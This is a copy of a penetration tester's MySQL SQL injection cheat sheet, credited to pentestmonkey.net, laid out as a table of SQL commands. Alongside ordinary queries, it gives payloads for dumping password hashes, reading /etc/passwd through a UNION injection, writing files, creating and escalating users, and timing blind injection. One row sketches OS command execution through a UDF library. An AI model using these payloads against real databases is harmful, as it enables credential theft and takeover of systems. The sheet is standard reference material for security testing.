 Acquired from: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

| Detail                      	| SQL Command                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
|------------------------------	|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	|
| Version                      	| SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| Comments                     	| SELECT 1; #comment                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
|                              	| SELECT /*comment*/1;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
| Current User                 	| SELECT user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        	|
|                              	| SELECT system_user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|
| List Users                   	| SELECT user FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| List Password Hashes         	| SELECT host, user, password FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| Password Cracker             	| John the Ripper will crack MySQL password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| List Privileges              	| SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns 	|
| List DBA Accounts            	| SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
| Current Database             	| SELECT database()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| List Databases               	| SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
|                              	| SELECT distinct(db) FROM mysql.db — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
| List Columns                 	| SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| List Tables                  	| SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
| Find Tables From Column Name 	| SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| Select Nth Row               	| SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
|                              	| SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| Select Nth Char              	| SELECT substr(‘abcd’, 3, 1); # returns c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
| Bitwise AND                  	| SELECT 6 & 2; # returns 2                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
|                              	| SELECT 6 & 1; # returns 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| ASCII Value -> Char          	| SELECT char(65); # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          	|
| Char -> ASCII Value          	| SELECT ascii(‘A’); # returns 65                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       	|
| Casting                      	| SELECT cast(’1′ AS unsigned integer);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|
|                              	| SELECT cast(’123′ AS char);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
| String Concatenation         	| SELECT CONCAT(‘A’,'B’); #returns AB                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| SELECT CONCAT(‘A’,'B’,'C’); # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| If Statement                 	| SELECT if(1=1,’foo’,'bar’); — returns ‘foo’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
| Case Statement               	| SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
| Avoiding Quotes              	| SELECT 0×414243; # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        	|
| Time Delay                   	| SELECT BENCHMARK(1000000,MD5(‘A’));                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| SELECT SLEEP(5); # >= 5.0.12                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          	|
| Make DNS Requests            	| Impossible?                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
| Command Execution            	| If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.                                                                                                                                                                                                                                                                                                                                           	|
| Local File Access            	| …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              	|
|                              	| SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| Hostname, IP Address         	| SELECT @@hostname;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| Create Users                 	| CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       	|
| Delete Users                 	| DROP USER test1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               	|
| Make User DBA                	| GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| Location of DB files         	| SELECT @@datadir;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
| Default/System Databases     	| information_schema (>= mysql 5.0)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     	|
|                              	| mysql                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|
